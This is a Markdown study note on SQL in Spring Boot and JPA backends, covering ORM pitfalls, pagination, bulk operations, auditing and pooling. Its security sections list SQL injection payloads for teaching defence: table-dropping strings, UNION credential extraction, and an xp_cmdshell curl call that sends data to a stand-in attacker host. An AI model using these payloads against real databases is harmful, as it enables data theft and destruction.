

# SQL for Backend Engineers

> [!info] Purpose
> This note bridges the gap between knowing SQL and using SQL effectively in production backend systems. It covers Spring Boot + JPA/Hibernate integration, ORM pitfalls, pagination strategies, bulk operations, security, connection pooling, and database migrations. Every section includes real Java code and the SQL that runs underneath.

> [!tip] Prerequisites
> Solid understanding of SQL fundamentals ([[04 - Joins]], [[06 - GROUP BY and Aggregation]], [[08 - Common Query Patterns]]) and advanced topics ([[12 - Query Optimization]], [[14 - Advanced SQL]]).

---

## Sample Tables

All examples use the shared schema:

```sql
-- employees (id, name, department_id, salary, hire_date, manager_id, is_active)
-- departments (id, name, location)
-- orders (id, customer_id, order_date, status, total_amount)
-- order_items (id, order_id, product_id, quantity, unit_price)
-- products (id, name, category, price, stock_quantity)
-- customers (id, name, email, city, created_at)
-- shipments (id, order_id, carrier, tracking_number, shipped_date, delivered_date, status)
```

---

## 1. SQL with Spring Boot

### JdbcTemplate: Simple and Direct

`JdbcTemplate` is the thinnest abstraction over JDBC — you write raw SQL and map results yourself.

```java
@Repository
public class OrderRepository {

    private final JdbcTemplate jdbc;

    public OrderRepository(JdbcTemplate jdbc) {
        this.jdbc = jdbc;
    }

    // Simple query with parameter binding
    public List<Order> findByStatus(String status) {
        return jdbc.query(
            "SELECT id, customer_id, order_date, status, total_amount " +
            "FROM orders WHERE status = ?",
            (rs, rowNum) -> new Order(
                rs.getLong("id"),
                rs.getLong("customer_id"),
                rs.getDate("order_date").toLocalDate(),
                rs.getString("status"),
                rs.getBigDecimal("total_amount")
            ),
            status  // bound parameter — safe from SQL injection
        );
    }

    // Aggregate query
    public BigDecimal getTotalRevenue(LocalDate from, LocalDate to) {
        return jdbc.queryForObject(
            "SELECT COALESCE(SUM(total_amount), 0) FROM orders " +
            "WHERE order_date BETWEEN ? AND ? AND status = 'delivered'",
            BigDecimal.class, from, to
        );
    }
}
```

### NamedParameterJdbcTemplate

Cleaner than positional `?` markers — use named parameters:

```java
@Repository
public class ShipmentRepository {

    private final NamedParameterJdbcTemplate namedJdbc;

    public ShipmentRepository(NamedParameterJdbcTemplate namedJdbc) {
        this.namedJdbc = namedJdbc;
    }

    public List<Shipment> findShipments(String carrier, String status) {
        String sql = """
            SELECT id, order_id, carrier, tracking_number, shipped_date, status
            FROM shipments
            WHERE carrier = :carrier AND status = :status
            ORDER BY shipped_date DESC
            """;

        MapSqlParameterSource params = new MapSqlParameterSource()
            .addValue("carrier", carrier)
            .addValue("status", status);

        return namedJdbc.query(sql, params, shipmentRowMapper());
    }
}
```

### Spring Data JPA

Spring Data JPA generates repository implementations from interface method names:

```java
@Entity
@Table(name = "orders")
public class Order {
    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)
    private Long id;

    @Column(name = "customer_id")
    private Long customerId;

    @Column(name = "order_date")
    private LocalDate orderDate;

    private String status;

    @Column(name = "total_amount")
    private BigDecimal totalAmount;

    @ManyToOne(fetch = FetchType.LAZY)
    @JoinColumn(name = "customer_id", insertable = false, updatable = false)
    private Customer customer;

    @OneToMany(mappedBy = "order", fetch = FetchType.LAZY)
    private List<OrderItem> items;
}

public interface OrderRepository extends JpaRepository<Order, Long> {

    // Spring Data generates SQL from the method name
    List<Order> findByStatus(String status);

    List<Order> findByCustomerIdAndStatusIn(Long customerId, List<String> statuses);

    // Custom JPQL query
    @Query("SELECT o FROM Order o WHERE o.totalAmount > :amount AND o.status = :status")
    List<Order> findLargeOrders(@Param("amount") BigDecimal amount,
                                @Param("status") String status);

    // Native SQL query
    @Query(value = """
        SELECT o.* FROM orders o
        JOIN shipments s ON s.order_id = o.id
        WHERE s.status = 'delivered'
          AND s.delivered_date > :since
        """, nativeQuery = true)
    List<Order> findRecentlyDelivered(@Param("since") LocalDate since);
}
```

### When to Use Each Approach

| Approach | Best For | Avoid When |
|---|---|---|
| **JdbcTemplate** | Complex SQL, reporting queries, bulk ops | Simple CRUD (too much boilerplate) |
| **NamedParameterJdbcTemplate** | Same as JdbcTemplate, cleaner params | Same as above |
| **Spring Data JPA** | Standard CRUD, simple queries | Complex multi-join analytics |
| **@Query (JPQL)** | Moderate queries with entity relationships | Database-specific SQL features |
| **@Query (native)** | Complex SQL, database-specific features | Queries that could be JPQL |
| **Hybrid** | Production applications | Never avoid — this is the right answer |

> [!tip] The Hybrid Approach
> In production, most teams use Spring Data JPA for CRUD and simple queries, then drop to `@Query` with native SQL or `JdbcTemplate` for complex reporting, bulk operations, and performance-critical paths. This is not a failure — it's pragmatic engineering.

---

## 2. ORM vs Raw SQL

### Comparison Table

| Aspect | ORM (Hibernate/JPA) | Raw SQL (JdbcTemplate) |
|---|---|---|
| **Productivity** | ✅ Fast for CRUD — generate repos | ❌ Manual mapping boilerplate |
| **Type safety** | ✅ Compile-time entity checks | ❌ Runtime SQL errors |
| **Query control** | ❌ Generated SQL can be surprising | ✅ You write exactly what runs |
| **Performance** | ⚠️ N+1, lazy loading traps | ✅ Predictable, optimizable |
| **Complex queries** | ❌ JPQL limitations, awkward joins | ✅ Full SQL power |
| **Caching** | ✅ First/second-level cache built in | ❌ Must implement yourself |
| **Schema migration** | ✅ Auto-generate DDL (dev only) | ❌ Manual migration scripts |
| **Learning curve** | ❌ Hibernate internals are complex | ✅ Just SQL + JDBC |
| **SQL injection risk** | ✅ Safe by default (parameterized) | ⚠️ Safe if you use `?` parameters |
| **Portability** | ✅ Database-agnostic (mostly) | ❌ May use DB-specific syntax |

### Decision Matrix

```
Is it simple CRUD?
  YES → Use Spring Data JPA
  NO ↓

Is it a moderate query involving entity relationships?
  YES → Use @Query with JPQL
  NO ↓

Does it require database-specific features (window functions, CTEs, JSON)?
  YES → Use @Query with nativeQuery=true or JdbcTemplate
  NO ↓

Is it a bulk operation (thousands of rows)?
  YES → Use JdbcTemplate with batch operations
  NO ↓

Is it a reporting/analytics query?
  YES → Use JdbcTemplate or a dedicated reporting view
```

---

## 3. Hibernate Pitfalls

### N+1 Select Problem (MOST COMMON)

The **N+1 problem** occurs when Hibernate executes 1 query to fetch N parent entities, then N additional queries to fetch each parent's related entities.

**How it happens:**

```java
// Entity with lazy-loaded relationship
@Entity
public class Order {
    @OneToMany(mappedBy = "order", fetch = FetchType.LAZY)
    private List<OrderItem> items;
}

// Controller code that triggers N+1
List<Order> orders = orderRepository.findByStatus("pending"); // 1 query: SELECT * FROM orders
for (Order order : orders) {
    order.getItems().size(); // N queries: SELECT * FROM order_items WHERE order_id = ?
}
// Total: 1 + N queries (if 100 orders → 101 queries!)
```

**The SQL Hibernate generates:**

```sql
-- Query 1: fetch all pending orders
SELECT id, customer_id, order_date, status, total_amount FROM orders WHERE status = 'pending';

-- Query 2..N+1: for EACH order, fetch its items
SELECT id, order_id, product_id, quantity, unit_price FROM order_items WHERE order_id = 1;
SELECT id, order_id, product_id, quantity, unit_price FROM order_items WHERE order_id = 2;
SELECT id, order_id, product_id, quantity, unit_price FROM order_items WHERE order_id = 3;
-- ... 97 more queries ...
```

**How to detect:**

```yaml
# application.yml — enable SQL logging (development only!)
spring:
  jpa:
    show-sql: true
    properties:
      hibernate:
        format_sql: true

# Better: use p6spy for production-safe SQL logging
# Counts queries per request — if you see 100+ queries, you have N+1
logging:
  level:
    org.hibernate.SQL: DEBUG
    org.hibernate.type.descriptor.sql: TRACE
```

**How to fix:**

```java
// Fix 1: @EntityGraph — tells Hibernate to JOIN FETCH in one query
@EntityGraph(attributePaths = {"items"})
List<Order> findByStatus(String status);
// Generates: SELECT o.*, oi.* FROM orders o LEFT JOIN order_items oi ON ...

// Fix 2: JOIN FETCH in JPQL
@Query("SELECT o FROM Order o JOIN FETCH o.items WHERE o.status = :status")
List<Order> findByStatusWithItems(@Param("status") String status);

// Fix 3: Batch size — fetches items in batches instead of one-by-one
@Entity
public class Order {
    @OneToMany(mappedBy = "order")
    @BatchSize(size = 25) // fetches items for 25 orders at a time
    private List<OrderItem> items;
}
// Generates: SELECT * FROM order_items WHERE order_id IN (1,2,3,...,25)
```



### LazyInitializationException

**What causes it:** Accessing a lazy-loaded relationship after the Hibernate session (persistence context) is closed.

```java
// Service method
@Transactional
public Order getOrder(Long id) {
    return orderRepository.findById(id).orElseThrow();
}
// Session closes when @Transactional method returns

// Controller — session is already closed!
Order order = orderService.getOrder(42);
order.getItems(); // 💥 LazyInitializationException — no session to load items
```

**Solutions:**

```java
// Solution 1: DTO projection — only fetch what you need (BEST)
public record OrderSummaryDTO(Long id, String status, BigDecimal total, int itemCount) {}

@Query("""
    SELECT new com.example.dto.OrderSummaryDTO(
        o.id, o.status, o.totalAmount, SIZE(o.items))
    FROM Order o WHERE o.id = :id
    """)
Optional<OrderSummaryDTO> findOrderSummary(@Param("id") Long id);

// Solution 2: JOIN FETCH in the service method
@Query("SELECT o FROM Order o JOIN FETCH o.items WHERE o.id = :id")
Optional<Order> findByIdWithItems(@Param("id") Long id);

// Solution 3 (ANTI-PATTERN): Open Session in View — keeps session open until response is sent
// spring.jpa.open-in-view=true  ← DEFAULT in Spring Boot, but considered harmful
// Delays DB connection release, unpredictable queries in the view layer
```

> [!danger] Open Session in View Anti-Pattern
> `spring.jpa.open-in-view=true` is Spring Boot's default, but it's dangerous in production. It keeps the database connection open through the entire HTTP request, including view rendering. This wastes connection pool resources and can trigger unexpected lazy loads in serializers. Set it to `false` and use DTOs or `JOIN FETCH` instead.

### Cartesian Product with Multiple Collections

```java
// ❌ PROBLEM: Fetching two collections at once
@Entity
public class Order {
    @OneToMany(mappedBy = "order")
    private List<OrderItem> items;

    @OneToMany(mappedBy = "order")
    private List<Shipment> shipments;
}

// This throws MultipleBagFetchException or produces a Cartesian product
@Query("SELECT o FROM Order o JOIN FETCH o.items JOIN FETCH o.shipments")
List<Order> findAllWithDetails(); // ❌ Cartesian product: items × shipments
```

**Solutions:**

```java
// Fix 1: Use Set instead of List (avoids MultipleBagFetchException)
@OneToMany(mappedBy = "order")
private Set<OrderItem> items;  // Set, not List

// Fix 2: Split into two queries (RECOMMENDED)
@EntityGraph(attributePaths = {"items"})
List<Order> findByStatus(String status); // Query 1: orders + items

// Then in a second query:
@Query("SELECT o FROM Order o JOIN FETCH o.shipments WHERE o IN :orders")
List<Order> fetchShipments(@Param("orders") List<Order> orders); // Query 2
```

### Dirty Checking Overhead

Hibernate automatically detects changes to managed entities and flushes them to the database. For read-only queries, this is wasted work.

```java
// ❌ Dirty checking on 10,000 entities you're only reading
List<Order> orders = orderRepository.findAll(); // All 10K are managed and tracked

// ✅ Read-only query — skips dirty checking
@QueryHints(@QueryHint(name = org.hibernate.annotations.QueryHints.READ_ONLY, value = "true"))
@Query("SELECT o FROM Order o WHERE o.status = 'delivered'")
List<Order> findDeliveredOrdersReadOnly();

// ✅ Or use a DTO projection — no entity management at all
@Query("SELECT new com.example.dto.OrderDTO(o.id, o.status, o.totalAmount) FROM Order o")
List<OrderDTO> findAllAsDTO();
```

### Logging SQL: show-sql vs p6spy

| Method | Pros | Cons |
|---|---|---|
| `show-sql: true` | Simple, built-in | No parameter values, noisy |
| `org.hibernate.SQL: DEBUG` | Shows SQL with formatting | Still no parameter values |
| **p6spy** | Shows SQL + bound parameter values, execution time | Needs dependency |
| **datasource-proxy** | Programmatic, can count queries per request | Needs configuration |

```yaml
# Recommended for development: p6spy
# Add dependency: com.github.gavlyukovskiy:p6spy-spring-boot-starter

# This logs the ACTUAL SQL with parameter values:
# SELECT * FROM orders WHERE status = 'pending' AND customer_id = 42
# Instead of:
# SELECT * FROM orders WHERE status = ? AND customer_id = ?
```

---

## 4. Native Queries

### When to Use @NativeQuery

- Window functions (`ROW_NUMBER`, `RANK`, `LAG/LEAD`)
- Common Table Expressions (CTEs)
- Database-specific functions (`DATE_TRUNC`, `JSONB` operators)
- Complex aggregations that JPQL can't express
- Performance-critical queries where you need control over the exact SQL

### Mapping Results to DTOs (Interface-Based Projection)

```java
// Interface projection — Spring generates the implementation
public interface ShipmentSummary {
    String getCarrier();
    Long getShipmentCount();
    Double getAvgDeliveryDays();
}

@Query(value = """
    SELECT
        s.carrier AS carrier,
        COUNT(*) AS shipmentCount,
        AVG(EXTRACT(DAY FROM (s.delivered_date - s.shipped_date))) AS avgDeliveryDays
    FROM shipments s
    WHERE s.status = 'delivered'
      AND s.shipped_date >= :since
    GROUP BY s.carrier
    ORDER BY shipmentCount DESC
    """, nativeQuery = true)
List<ShipmentSummary> getCarrierPerformance(@Param("since") LocalDate since);
```

### Mapping Results to DTOs (Class-Based Projection)

```java
// Record-based DTO
public record CarrierStats(String carrier, long count, double avgDays) {}

// Use SqlResultSetMapping for class-based native query mapping
@SqlResultSetMapping(
    name = "CarrierStatsMapping",
    classes = @ConstructorResult(
        targetClass = CarrierStats.class,
        columns = {
            @ColumnResult(name = "carrier", type = String.class),
            @ColumnResult(name = "shipment_count", type = Long.class),
            @ColumnResult(name = "avg_days", type = Double.class)
        }
    )
)
```

---

## 5. Pagination Strategies

### Spring Data Pageable (OFFSET-Based)

```java
// Repository method
Page<Order> findByStatus(String status, Pageable pageable);

// Service usage
Pageable pageable = PageRequest.of(0, 20, Sort.by("orderDate").descending());
Page<Order> page = orderRepository.findByStatus("pending", pageable);

// page.getContent()       → List<Order> (the 20 results)
// page.getTotalElements() → total count across all pages
// page.getTotalPages()    → number of pages
// page.hasNext()          → boolean
```

**SQL generated:**

```sql
-- Main query
SELECT * FROM orders WHERE status = 'pending' ORDER BY order_date DESC LIMIT 20 OFFSET 0;

-- Count query (for total — this can be EXPENSIVE on large tables)
SELECT COUNT(*) FROM orders WHERE status = 'pending';
```

### OFFSET Problems at Scale

```sql
-- Page 1: fast
SELECT * FROM orders ORDER BY id LIMIT 20 OFFSET 0;

-- Page 5000: SLOW — database must read and discard 99,980 rows
SELECT * FROM orders ORDER BY id LIMIT 20 OFFSET 99980;
```

> [!danger] OFFSET Pagination Gets Slower on Every Page
> The database must scan and discard all rows before the offset. Page 5000 with 20 results/page means scanning 100,000 rows to return 20. This is O(offset + limit) per query.

### Keyset / Cursor-Based Pagination (FAST)

Instead of "skip N rows," use "rows after the last one I saw":

```java
// Repository
@Query(value = """
    SELECT * FROM orders
    WHERE status = :status
      AND (order_date, id) < (:lastDate, :lastId)
    ORDER BY order_date DESC, id DESC
    LIMIT :size
    """, nativeQuery = true)
List<Order> findNextPage(@Param("status") String status,
                         @Param("lastDate") LocalDate lastDate,
                         @Param("lastId") Long lastId,
                         @Param("size") int size);
```

```sql
-- First page
SELECT * FROM orders WHERE status = 'pending'
ORDER BY order_date DESC, id DESC LIMIT 20;

-- Next page: "give me rows after the last row I saw"
SELECT * FROM orders WHERE status = 'pending'
  AND (order_date, id) < ('2024-03-15', 1042)  -- last row from previous page
ORDER BY order_date DESC, id DESC LIMIT 20;
```

### Slice vs Page in Spring Data

| Feature | `Page<T>` | `Slice<T>` |
|---|---|---|
| Total count query | ✅ Yes (`COUNT(*)`) | ❌ No |
| Knows total pages | ✅ Yes | ❌ No |
| Knows if there's a next page | ✅ Yes | ✅ Yes (fetches limit + 1 rows) |
| Performance | Slower (extra COUNT) | Faster (no COUNT) |
| Use case | Page numbers in UI | "Load more" / infinite scroll |

```java
// Use Slice when you don't need total count
Slice<Order> findByStatus(String status, Pageable pageable);
```

### Performance Comparison at Scale

| Rows | Page Number | OFFSET-based | Keyset-based |
|---|---|---|---|
| 1M | 1 | ~2ms | ~2ms |
| 1M | 100 | ~15ms | ~2ms |
| 1M | 5,000 | ~200ms | ~2ms |
| 1M | 50,000 | ~2,000ms | ~2ms |

> [!tip] Link
> See [[08 - Common Query Patterns]] for more pagination patterns and strategies.

---

## 6. Bulk Updates

### JPA saveAll() Problems

```java
// ❌ PROBLEM: saveAll() generates N individual INSERT statements
List<Product> products = buildProductList(10_000);
productRepository.saveAll(products);
// Hibernate generates 10,000 individual INSERTs — very slow
```

### Batch INSERT with JDBC

```java
@Repository
public class ProductBatchRepository {

    private final JdbcTemplate jdbc;

    // ✅ Batch insert — one round-trip with multiple rows
    public void batchInsert(List<Product> products) {
        jdbc.batchUpdate(
            "INSERT INTO products (name, category, price, stock_quantity) VALUES (?, ?, ?, ?)",
            new BatchPreparedStatementSetter() {
                @Override
                public void setValues(PreparedStatement ps, int i) throws SQLException {
                    Product p = products.get(i);
                    ps.setString(1, p.getName());
                    ps.setString(2, p.getCategory());
                    ps.setBigDecimal(3, p.getPrice());
                    ps.setInt(4, p.getStockQuantity());
                }

                @Override
                public int getBatchSize() {
                    return products.size();
                }
            }
        );
    }
}
```

### Hibernate Batch Configuration

```yaml
spring:
  jpa:
    properties:
      hibernate:
        jdbc:
          batch_size: 50          # batch N statements together
          batch_versioned_data: true
        order_inserts: true       # group inserts by entity type
        order_updates: true       # group updates by entity type
```

### @Modifying for Bulk Operations

```java
// ✅ Bulk UPDATE directly in the database — no entity loading
@Modifying
@Query("UPDATE Order o SET o.status = :newStatus WHERE o.status = :oldStatus AND o.orderDate < :before")
int bulkUpdateStatus(@Param("oldStatus") String oldStatus,
                     @Param("newStatus") String newStatus,
                     @Param("before") LocalDate before);

// ✅ Bulk DELETE
@Modifying
@Query("DELETE FROM OrderItem oi WHERE oi.order.id IN " +
       "(SELECT o.id FROM Order o WHERE o.status = 'cancelled' AND o.orderDate < :before)")
int deleteOldCancelledItems(@Param("before") LocalDate before);
```

> [!warning] @Modifying Clears the Persistence Context
> After a `@Modifying` query, the persistence context may be stale. Add `clearAutomatically = true` to auto-clear, or be aware that cached entities may not reflect the bulk update.

### Chunk Processing for Large Datasets

```java
// Process millions of rows in chunks to avoid OutOfMemoryError
@Transactional
public void processLargeDataset() {
    int batchSize = 1000;
    int page = 0;
    Slice<Order> slice;

    do {
        slice = orderRepository.findByStatus("pending",
            PageRequest.of(page, batchSize));

        List<Order> orders = slice.getContent();
        // Process batch...

        entityManager.flush();
        entityManager.clear(); // Release memory

        page++;
    } while (slice.hasNext());
}
```

---

## 7. Audit Logging

### Spring Data JPA Auditing

```java
@Configuration
@EnableJpaAuditing
public class JpaAuditConfig {
    @Bean
    public AuditorAware<String> auditorProvider() {
        return () -> Optional.ofNullable(SecurityContextHolder.getContext()
            .getAuthentication())
            .map(Authentication::getName);
    }
}

@MappedSuperclass
@EntityListeners(AuditingEntityListener.class)
public abstract class Auditable {

    @CreatedDate
    @Column(name = "created_at", updatable = false)
    private LocalDateTime createdAt;

    @LastModifiedDate
    @Column(name = "updated_at")
    private LocalDateTime updatedAt;

    @CreatedBy
    @Column(name = "created_by", updatable = false)
    private String createdBy;

    @LastModifiedBy
    @Column(name = "updated_by")
    private String updatedBy;
}

// All entities extend Auditable
@Entity
@Table(name = "orders")
public class Order extends Auditable {
    // ... fields
}
```

### Hibernate Envers for Full History

```java
// Add dependency: org.hibernate:hibernate-envers

@Entity
@Audited  // Envers tracks all changes to this entity
@Table(name = "orders")
public class Order extends Auditable {
    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)
    private Long id;
    private String status;
    private BigDecimal totalAmount;
}

// Envers automatically creates: orders_AUD table + REVINFO table

// Query historical versions
AuditReader reader = AuditReaderFactory.get(entityManager);

// Get all revisions of an order
List<Number> revisions = reader.getRevisions(Order.class, orderId);

// Get the order at a specific revision
Order historicalOrder = reader.find(Order.class, orderId, revisionNumber);

// Get the order as it was at a specific date
Order pastOrder = reader.find(Order.class, orderId,
    Date.from(someInstant));
```

### Custom Audit Table Approach

```sql
-- Audit table
CREATE TABLE audit_log (
    id          SERIAL PRIMARY KEY,
    table_name  VARCHAR(100) NOT NULL,
    record_id   BIGINT NOT NULL,
    action      VARCHAR(10) NOT NULL,  -- INSERT, UPDATE, DELETE
    old_values  JSONB,
    new_values  JSONB,
    changed_by  VARCHAR(100),
    changed_at  TIMESTAMP DEFAULT NOW()
);

-- PostgreSQL trigger for automatic auditing
CREATE OR REPLACE FUNCTION audit_trigger_func()
RETURNS TRIGGER AS $$
BEGIN
    IF TG_OP = 'INSERT' THEN
        INSERT INTO audit_log (table_name, record_id, action, new_values, changed_by)
        VALUES (TG_TABLE_NAME, NEW.id, 'INSERT', to_jsonb(NEW), current_user);
    ELSIF TG_OP = 'UPDATE' THEN
        INSERT INTO audit_log (table_name, record_id, action, old_values, new_values, changed_by)
        VALUES (TG_TABLE_NAME, NEW.id, 'UPDATE', to_jsonb(OLD), to_jsonb(NEW), current_user);
    ELSIF TG_OP = 'DELETE' THEN
        INSERT INTO audit_log (table_name, record_id, action, old_values, changed_by)
        VALUES (TG_TABLE_NAME, OLD.id, 'DELETE', to_jsonb(OLD), current_user);
    END IF;
    RETURN NEW;
END;
$$ LANGUAGE plpgsql;

CREATE TRIGGER orders_audit
    AFTER INSERT OR UPDATE OR DELETE ON orders
    FOR EACH ROW EXECUTE FUNCTION audit_trigger_func();
```

> [!tip] Link
> For more on temporal data and history tracking, see [[14 - Advanced SQL]] — Temporal Tables section.

---

## 8. Security Considerations

### SQL Injection: What It Is and Why It's Critical

SQL injection occurs when user input is concatenated directly into SQL strings, allowing attackers to modify the query's logic.

```java
// ❌ VULNERABLE: string concatenation
String sql = "SELECT * FROM customers WHERE email = '" + userInput + "'";

// If userInput = "' OR '1'='1' --"
// The SQL becomes:
// SELECT * FROM customers WHERE email = '' OR '1'='1' --'
// This returns ALL customers
```

> [!danger] SQL Injection is the #1 Web Application Vulnerability
> It has been consistently in the OWASP Top 10 since its inception. A single unparameterized query in your codebase can lead to complete database compromise — data theft, data destruction, or even operating system access.

### Parameterized Queries (The Solution)

```java
// ✅ SAFE: parameterized query — the database treats the parameter as a VALUE, never as SQL
// JdbcTemplate
jdbc.query("SELECT * FROM customers WHERE email = ?", mapper, userInput);

// NamedParameterJdbcTemplate
namedJdbc.query("SELECT * FROM customers WHERE email = :email",
    Map.of("email", userInput), mapper);

// PreparedStatement (low-level)
PreparedStatement ps = conn.prepareStatement("SELECT * FROM customers WHERE email = ?");
ps.setString(1, userInput);  // userInput is bound as a literal value, not SQL code

// JPA named parameters (safe by default)
@Query("SELECT c FROM Customer c WHERE c.email = :email")
Customer findByEmail(@Param("email") String email);

// Spring Data derived queries (safe by default)
Customer findByEmail(String email);
```

### Vulnerable vs Secure Code Side-by-Side

```java
// ❌ VULNERABLE: Dynamic table/column names
String sql = "SELECT * FROM " + tableName + " WHERE " + columnName + " = ?";
// Parameterization doesn't help for identifiers (table/column names)

// ✅ SAFE: Whitelist valid table/column names
private static final Set<String> ALLOWED_TABLES = Set.of("orders", "customers", "products");
private static final Set<String> ALLOWED_COLUMNS = Set.of("id", "name", "status");

if (!ALLOWED_TABLES.contains(tableName) || !ALLOWED_COLUMNS.contains(columnName)) {
    throw new IllegalArgumentException("Invalid table or column name");
}
String sql = "SELECT * FROM " + tableName + " WHERE " + columnName + " = ?";
```

### JPA / Spring Data Safety

```java
// ✅ Spring Data repository methods — ALWAYS safe (generated parameterized SQL)
List<Customer> findByCity(String city);
List<Order> findByStatusAndTotalAmountGreaterThan(String status, BigDecimal amount);

// ✅ JPQL @Query — safe when using :param syntax
@Query("SELECT c FROM Customer c WHERE c.city = :city")
List<Customer> findByCity(@Param("city") String city);

// ⚠️ DANGEROUS: Native query with string concatenation
@Query(value = "SELECT * FROM customers WHERE city = '" + city + "'", nativeQuery = true)
// Never do this! But also: @Query is evaluated at startup, so this won't compile
// with a variable — but be careful with custom query builders

// ⚠️ WATCH OUT: EntityManager createQuery with string concatenation
String jpql = "SELECT c FROM Customer c WHERE c.name = '" + userInput + "'";
entityManager.createQuery(jpql); // VULNERABLE!
```

### Principle of Least Privilege

```sql
-- Create a read-only user for reporting queries
CREATE USER report_reader WITH PASSWORD 'strong_password';
GRANT SELECT ON orders, customers, products, shipments TO report_reader;

-- Create a limited user for the application
CREATE USER app_user WITH PASSWORD 'another_strong_password';
GRANT SELECT, INSERT, UPDATE ON orders, order_items, shipments TO app_user;
GRANT SELECT ON customers, products, departments TO app_user;
-- No DELETE permission — application uses soft-delete (is_active flag)
-- No DDL permissions — schema changes go through migrations only
```

### Read-Only Database Connections

```java
// Configure a read-only datasource for reporting
@Configuration
public class DataSourceConfig {

    @Bean
    @Primary
    @ConfigurationProperties("spring.datasource.primary")
    public DataSource primaryDataSource() {
        return DataSourceBuilder.create().build();
    }

    @Bean
    @ConfigurationProperties("spring.datasource.readonly")
    public DataSource readOnlyDataSource() {
        HikariDataSource ds = DataSourceBuilder.create()
            .type(HikariDataSource.class).build();
        ds.setReadOnly(true); // Connection-level read-only flag
        return ds;
    }
}
```

---

## 9. SQL Injection Prevention (Deep Dive)

### Types of SQL Injection

| Type | Technique | Detection |
|---|---|---|
| **Classic** | `' OR '1'='1' --` | Response changes (data exposed) |
| **UNION-based** | `' UNION SELECT username, password FROM users --` | Extra data in response |
| **Blind (boolean)** | `' AND (SELECT COUNT(*) FROM users) > 0 --` | True/false response change |
| **Blind (time-based)** | `' AND SLEEP(5) --` | Response delay indicates TRUE |
| **Second-order** | Stored input used later in an unparameterized query | Delayed effect |
| **Out-of-band** | `'; EXEC xp_cmdshell('curl attacker.com/?' + @@version) --` | Data exfiltration via DNS/HTTP |

### How Parameterized Queries Work Internally

```
Without parameterization:
  Application → "SELECT * FROM users WHERE name = 'Alice'" → Database
  The database PARSES the entire string as SQL, including 'Alice'

With parameterization:
  Application → "SELECT * FROM users WHERE name = $1" + [Alice] → Database
  Step 1: Database PARSES the query template (no user data)
  Step 2: Database BINDS the parameter value to $1
  Step 3: Database EXECUTES with the bound value
  The value can NEVER be interpreted as SQL code — it's always a literal
```

### Second-Order Injection

```java
// Step 1: User registers with name: "Robert'; DROP TABLE orders; --"
// This is safely stored via parameterized INSERT

// Step 2: Later, an admin report builds SQL using the stored name
String storedName = userRepository.findById(userId).getName();
// storedName = "Robert'; DROP TABLE orders; --"

// ❌ VULNERABLE: Using the stored value without parameterization
String sql = "SELECT * FROM orders WHERE customer_name = '" + storedName + "'";
// Boom: DROP TABLE orders executes

// ✅ SAFE: Always parameterize, even with "trusted" database values
jdbc.query("SELECT * FROM orders WHERE customer_name = ?", mapper, storedName);
```

### Testing for SQL Injection

```
Manual testing payloads:
  ' OR '1'='1
  ' OR '1'='1' --
  ' UNION SELECT null, null, null --
  '; DROP TABLE test --
  ' AND SLEEP(5) --

Automated tools:
  - SQLMap (open source, comprehensive)
  - OWASP ZAP (web app scanner)
  - Burp Suite (commercial, powerful)

In CI/CD:
  - Static analysis: Semgrep rules for SQL injection patterns
  - SAST tools: Checkmarx, SonarQube
```

---

## 10. Connection Pooling

### HikariCP Configuration

HikariCP is the default connection pool in Spring Boot — it's fast, lightweight, and battle-tested.

```yaml
spring:
  datasource:
    hikari:
      # Pool sizing
      maximum-pool-size: 10        # max connections in the pool
      minimum-idle: 5              # min idle connections maintained

      # Timeouts
      connection-timeout: 30000    # 30s — max wait for a connection from pool
      idle-timeout: 600000         # 10min — idle connection is removed
      max-lifetime: 1800000        # 30min — connection is retired (prevents stale)

      # Leak detection
      leak-detection-threshold: 60000  # 60s — log warning if connection held too long

      # Validation
      connection-test-query: SELECT 1  # lightweight query to test connection health
```

### Pool Sizing Formula

> [!tip] Pool Size Formula (from HikariCP docs)
> `pool_size = T × (C − 1) + 1`
> Where:
> - T = number of threads that can execute queries simultaneously
> - C = number of independent queries per transaction
>
> **Rule of thumb:** `connections = (2 × CPU_cores) + effective_spindle_count`
> For SSD: `connections ≈ (2 × CPU_cores) + 1`
> Example: 4-core server → pool size of ~10

### Connection Leak Detection

A **connection leak** occurs when application code borrows a connection from the pool and never returns it (due to missing `close()` or exception handling).

```yaml
spring:
  datasource:
    hikari:
      leak-detection-threshold: 30000  # warn if held > 30 seconds
```

```
# Log output when a leak is detected:
WARN  com.zaxxer.hikari.pool.ProxyLeakTask -
  Connection leak detection triggered for connection com.mysql.cj.jdbc.ConnectionImpl@3e2e,
  on thread http-nio-8080-exec-4, stack trace follows
  java.lang.Exception: Apparent connection leak detected
    at com.example.service.OrderService.processOrders(OrderService.java:42)
```

### Monitoring Pool Health

```java
// Expose HikariCP metrics via Spring Boot Actuator
@Configuration
public class HikariMetricsConfig {
    @Bean
    public HikariDataSource dataSource(DataSourceProperties properties, MeterRegistry registry) {
        HikariDataSource ds = properties.initializeDataSourceBuilder()
            .type(HikariDataSource.class).build();
        ds.setMetricRegistry(registry);
        return ds;
    }
}

// Key metrics to monitor:
// hikaricp.connections.active    — currently borrowed connections
// hikaricp.connections.idle      — available connections
// hikaricp.connections.pending   — threads waiting for a connection
